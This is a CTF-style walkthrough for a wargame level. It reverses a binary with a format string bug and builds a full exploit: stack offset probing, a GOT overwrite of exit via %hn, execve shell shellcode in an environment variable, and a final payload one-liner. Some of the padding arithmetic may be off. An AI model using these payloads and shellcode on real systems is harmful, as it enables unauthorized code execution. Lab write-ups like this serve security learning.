 # Walkthrough

## Reversing

```c
int main(void)
{
  char cVar1;
  uint uVar2;
  char *pcVar3;
  char useless;
  char buff [100];
  uint i;

  useless = '\0';
  fgets(buff,100,stdin);
  i = 0;
  do {
    uVar2 = 0xffffffff;
    pcVar3 = buff;
    do {
      if (uVar2 == 0) break;
      uVar2 = uVar2 - 1;
      cVar1 = *pcVar3;
      pcVar3 = pcVar3 + (uint)(byte)useless * -2 + 1;
    } while (cVar1 != '\0');
    if (~uVar2 - 1 <= i) {
      printf(buff); // FMT String Vuln
      exit(0);
    }
    if (('@' < buff[i]) && (buff[i] < '[')) {
      buff[i] = buff[i] ^ 32;
    }
    i = i + 1;
  } while( true );
}
```

This is another format string vulnerability, but with a little twist.

Before printing it's `XOR`ing every character with `32`, that basically just
converts uppercase letters into lowercase, so I'll make sure
not to write those characters in the format string.

The characters is `XOR`ing are all the uppercase letters:
```raw
65  A    66  B    67  C    68  D    69  E    70  F    71  G
72  H    73  I    74  J    75  K    76  L    77  M    78  N    79  O
80  P    81  Q    82  R    83  S    84  T    85  U    86  V    87  W
88  X    89  Y    90  Z
```

But, we aren't writing any of those right?

## Explotation

Things however are a little different from [rainfall `level05`](https://github.com/izenynn/rainfall/tree/main/level5),
this time we need to inject shellcode, which means, it will be on the stack,
which means the address will be hight, very hight.

But who cares? We could split the hight bytes and low bytes, using `%hn`, but
I don't mind waiting 30 minutes. But the evaluator might mind, so let's do this
in the right way... Zzz...

First, locate where our input starts in the `printf` stack:
```bash
$ ./level05
AAAA.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x.%08x
aaaa.00000064.f7fcfac0.f7ec3af9.ffffd6bf.ffffd6be.00000000.ffffffff.ffffd744.f7fdb000.61616161.3830252e
```

In the `10`th item of the stack, let's check it with:
```bash
$ ./level05
AAAA.%10$08x
aaaa.61616161
```

Yep, that's it, cool.

Let's take the address of `exit` from the `.got.plt` section:
```raw
                     PTR_exit_080497e0                               XREF[1]:     exit:08048370  
080497e0 0c a0 04 08     addr       <EXTERNAL>::exit                                 = ??
```

The `exit` address is `080497e0`.

And the address of our shellcode:
```bash
export SC=$(python -c "print '\x90'*100+'\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80'")
gcc getenv.c -m32 -o getenv
./getenv SC
# SC address: 0xffffde8b
```

So our shellcode address `0xffffde8b`.

Now, to forge the payload it will be a bit tricky, we need to write the
address 2 bytes at a time, using `%hn`. The only difference between the format
specifier `%hn` and `%n` is that `%hn` expects an unsigned short (2 bytes)
instead of an unsigned integer (4 bytes).

One important aspect is that we need to write the lower of both value first,
because we can easily print more characters after the first value but not less.

If we split in two the `SC` address it would be:
- `0xffff`.
- `0xde8b`.

We need to write first the low value, because of what I said earlier, but
remember the machine is little-endian, so the address we need to write is:
`8bdeffff`.

Knowing that, the payload will be like:
- Address of `exit` for the lower bytes of `SC`: `080497e0` (we will write `8bde`).
- Address of `exit` for the high bytes of `SC`: `080497e2` (`2` bytes more) (we will write `ffff`).
- Format string: `%Nu%10$hn` + `%Nu%11$hn`.

But how many bytes we should pad our `%hn`, so it writes the address of
our shellcode? let's see:
```bash
$ printf "%d\n" 0xffff
65535
$ printf "%d\n" 0xde8b
56971
```

Okey, substract the `8` bytes of the `exit` addresses, and substract the already
printed bytes from the second `%hn`:
```bash
bc

56971 - 8
56963

65535 - 56963
8572
```

So, our payload will be, in a python one-liner:
```bash
cat <(python -c "print '\x08\x04\x97\xe0'[::-1] + '\x08\x04\x97\xe2'[::-1] + '%56963u%10$hn' + '%8572u%11$hn'") - | ./level05
```

And that's all, another flag. This is getting harder! :D

